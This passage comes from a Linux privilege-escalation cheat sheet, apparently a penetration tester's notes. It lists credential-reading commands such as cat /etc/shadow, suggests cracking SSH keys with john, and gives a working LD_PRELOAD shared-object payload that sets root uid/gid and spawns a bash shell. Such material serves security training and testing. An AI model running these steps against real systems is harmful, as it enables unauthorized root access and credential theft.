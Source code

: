 ```sh
cat /etc/shadow
```

Check if our current user has access to the `/etc/group` file

```sh
cat /etc/group
```

**History**

```sh
history
```

**Switch to Root**

```sh
sudo su
```

**Check your Surroundings**

Make sure to check the file system for files that look interesting with `ls -la`. Look for configuration files, SSH files, or bash history for potential leaked credentials. You can use `john` to try to crack the SSH file.

**Sudo Privileges**

Show all of the binaries that can be run as sudo without a password.

```
sudo -l
```

Compare the output to the website GTFOBins that shows known exploitation methods for common binaries

<https://gtfobins.github.io/>

**Sudo Privileges via Intended Functionality**

Just because a binary doesn't show up in GTFOBins, it may have intended functionality that can be exploited. For example, in Apache is can be used to read files with escalated privileges.

**Sudo Privileges via LD_PRELOAD**

After running the command `sudo -l` if the output contains `LD_PRELOAD` it can be exploited with a short script to escalate privileges. 

```
TCM@debian:~$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD
```

Create a new C file with the following code

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```
